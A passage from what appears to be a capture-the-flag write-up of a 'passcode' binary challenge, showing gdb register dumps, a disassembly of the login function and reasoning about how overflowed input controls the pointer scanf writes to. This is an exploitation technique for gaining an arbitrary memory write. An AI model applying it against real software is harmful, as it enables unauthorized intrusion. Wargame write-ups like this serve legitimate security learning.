 ```bash
ebx            0x0	0
esp            0xffb8a4e0	0xffb8a4e0
ebp            0xffb8a508	0xffb8a508
esi            0xf7783000	-143118336
edi            0xf7783000	-143118336
eip            0x8048586	0x8048586 <login+34>
eflags         0x282	[ SF IF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
(gdb) 
```

Basically, we put bytes 60-160 into an input file, run `gdb`, set our breakpoint at the `scanf` call, run using the input, then check the registers. We can see `edx` is `0x9f9e9d9c` which are sequential bytes, meaning our data leaked into `edx` from our `name` char array. We were 60 bytes in, `0x9c` = 156, `0x9f` = 159. 156-60 is 96, meaning we are 96 bytes in when we start overwriting information. `edx` is filled with this value to give to `scanf` as a place to put `passcode1`. How can we use this to our advantage?

If one was to step into the function call of `scanf` and `disas` you'll see this.
```
(gdb) disas login
Dump of assembler code for function login:
   0x08048564 <+0>:	push   %ebp
   0x08048565 <+1>:	mov    %esp,%ebp
   0x08048567 <+3>:	sub    $0x28,%esp
   0x0804856a <+6>:	mov    $0x8048770,%eax
   0x0804856f <+11>:	mov    %eax,(%esp)
   0x08048572 <+14>:	call   0x8048420 <printf@plt>
   0x08048577 <+19>:	mov    $0x8048783,%eax
   0x0804857c <+24>:	mov    -0x10(%ebp),%edx
   0x0804857f <+27>:	mov    %edx,0x4(%esp)
   0x08048583 <+31>:	mov    %eax,(%esp)
=> 0x08048586 <+34>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x0804858b <+39>:	mov    0x804a02c,%eax
   0x08048590 <+44>:	mov    %eax,(%esp)
   0x08048593 <+47>:	call   0x8048430 <fflush@plt>
   0x08048598 <+52>:	mov    $0x8048786,%eax
   0x0804859d <+57>:	mov    %eax,(%esp)
   0x080485a0 <+60>:	call   0x8048420 <printf@plt>
   0x080485a5 <+65>:	mov    $0x8048783,%eax
   0x080485aa <+70>:	mov    -0xc(%ebp),%edx
   0x080485ad <+73>:	mov    %edx,0x4(%esp)
   0x080485b1 <+77>:	mov    %eax,(%esp)
   0x080485b4 <+80>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x080485b9 <+85>:	movl   $0x8048799,(%esp)
   0x080485c0 <+92>:	call   0x8048450 <puts@plt>
   0x080485c5 <+97>:	cmpl   $0x528e6,-0x10(%ebp)
   0x080485cc <+104>:	jne    0x80485f1 <login+141>
   0x080485ce <+106>:	cmpl   $0xcc07c9,-0xc(%ebp)
   0x080485d5 <+113>:	jne    0x80485f1 <login+141>
   0x080485d7 <+115>:	movl   $0x80487a5,(%esp)
   0x080485de <+122>:	call   0x8048450 <puts@plt>
   0x080485e3 <+127>:	movl   $0x80487af,(%esp)
   0x080485ea <+134>:	call   0x8048460 <system@plt>
   0x080485ef <+139>:	leave  
   0x080485f0 <+140>:	ret    
   0x080485f1 <+141>:	movl   $0x80487bd,(%esp)
   0x080485f8 <+148>:	call   0x8048450 <puts@plt>
   0x080485fd <+153>:	movl   $0x0,(%esp)
```